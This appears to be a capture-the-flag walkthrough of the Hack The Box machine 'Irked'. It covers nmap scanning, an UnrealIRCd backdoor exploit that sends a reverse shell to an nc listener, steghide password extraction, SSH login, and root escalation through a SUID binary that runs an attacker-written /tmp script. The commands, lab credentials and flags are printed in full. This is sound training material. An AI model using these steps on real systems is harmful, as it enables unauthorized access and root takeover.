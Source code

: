 ![Irked.PNG](/assets/Machines/Easy/Irked/Irked.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.10.117
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.117
```

**Output**
```bash
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8067/tcp  open  infi-async
40237/tcp open  unknown
65534/tcp open  unknown
```

3. With nmap discover versions of services
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Irked]
└─| nmap -sCV -p22,80,111,6697,8067,58229,65534 10.10.10.117
```

**Output**

```bash
PORT      STATE  SERVICE VERSION
22/tcp    open   ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a5df5bdcf8378b675319bdc79c5fdad (DSA)
|   2048 752e66bfb93cccf77e848a8bf0810233 (RSA)
|   256 c8a3a25e349ac49b9053f750bfea253b (ECDSA)
|_  256 8d1b43c7d01a4c05cf82edc10163a20c (ED25519)
80/tcp    open   http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open   rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          40237/tcp   status
|   100024  1          45229/udp   status
|   100024  1          47494/udp6  status
|_  100024  1          59362/tcp6  status
6697/tcp  open   irc     UnrealIRCd
8067/tcp  open   irc     UnrealIRCd
58229/tcp closed unknown
65534/tcp open   irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

4. Search any exploit with **UnrealIRCd** (https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor)

5. Config the exploit 

```python
# Sets the local ip and port (address and port to listen on)
local_ip = '<tun0 IP>'  # CHANGE THIS
local_port = '<Port>'  # CHANGE THIS
```

6. Listen with nc in port you choose
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Irked]
└─| nc -lvnp 4444
```

7. Run exploit
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Irked]
└─| python3 exploit.py -payload bash <IP Machine> <Port of service>
```


8. You obtain a shell

```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Irked]
└─| nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.117] 47902
bash: cannot set terminal process group (637): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$ whoami
whoami
ircd
ircd@irked:~/Unreal3.2$
```

9. After search for permissions SUID, search with scripts, etc. Go to path `/home/djmardov/Documents` and list files.
```bash
ircd@irked:/home/djmardov/Documents$ ls -la
total 12
drwxr-xr-x  2 djmardov djmardov 4096 Sep  5 08:41 .
drwxr-xr-x 18 djmardov djmardov 4096 Sep  5 08:41 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
lrwxrwxrwx  1 root     root       23 Sep  5 08:16 user.txt -> /home/djmardov/user.txt
```

* We don't read **user flag**.

10. Look the file **.backup**
```bash
ircd@irked:/home/djmardov/Documents$ cat .backup 
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

* We find a **password**
* **steg** is for **steganography**


11. Visit web page

![web.PNG](/assets/Machines/Easy/Irked/web.PNG)

* Download image and try to search information

12. Search information with **steghide**, in **Enter passphrase:** put the password found `UPupDOWNdownLRlrBAbaSSss`

```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Irked]
└─| steghide info irked.jpg       
"irked.jpg":
  format: jpeg
  capacity: 1.5 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "pass.txt":
    size: 17.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```

* Found **pass.txt** file

13. Obtain the file
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Irked]
└─| steghide extract -sf irked.jpg
```

14. Read file
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Irked]
└─| cat pass.txt 
Kab6h+m+bbp2J:HG
```

15.  We obtain a password, try to login with **ssh** and user **djmardov**

```bash
┌──(root㉿kali)-[/home/kali]
└─| ssh djmardov@10.10.10.117
```


16. Read **user flag**
```bash
djmardov@irked:~$ cat user.txt 
ec9ebcadfadc24685d0236839c8b30e4
```

---
---
---

### Privileges Escalation 💀

1. Search files with permission **4000**
```bash
djmardov@irked:~$ find / -perm -4000 2>/dev/null
```

**Output**
```bash
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
```

2. `/usr/bin/viewuser` is suspicious, execute this.
```bash
djmardov@irked:/$ ./usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2022-11-19 18:37 (:0)
djmardov pts/0        2022-11-19 19:07 (10.10.14.9)
sh: 1: /tmp/listusers: not found
```

* Script need `/tmp/listusers` file
* The word `sh:` before name file meaning this file is a script, you can inject a malicious script to get **root access**

3. Create `/tmp/listusers` script
```bash
djmardov@irked:/$ cat /tmp/listusers 
chmod u+s /bin/bash
```

4. Assign permission to execute
```bash
djmardov@irked:/$ cat /tmp/listusers 
chmod u+s /bin/bash
```

5. Run `/usr/bin/viewuser` script
```bash
djmardov@irked:/$ ./usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2022-11-19 18:37 (:0)
djmardov pts/0        2022-11-19 19:07 (10.10.14.9)
```

6. Look permissions of `/bin/bash`
```bash
djmardov@irked:/$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1105840 Nov  5  2016 /bin/bash
```
* We obtained a SUID permission on `/bin/bash`

7. Now, we can open **bash** how root
```bash
djmardov@irked:/$ bash -p
bash-4.3# whoami
root
```

8. Cat **root flag**
```bash
bash-4.3# cat /root/root.txt 
236522e58d6bcb107a7b14cf821ba8c9
```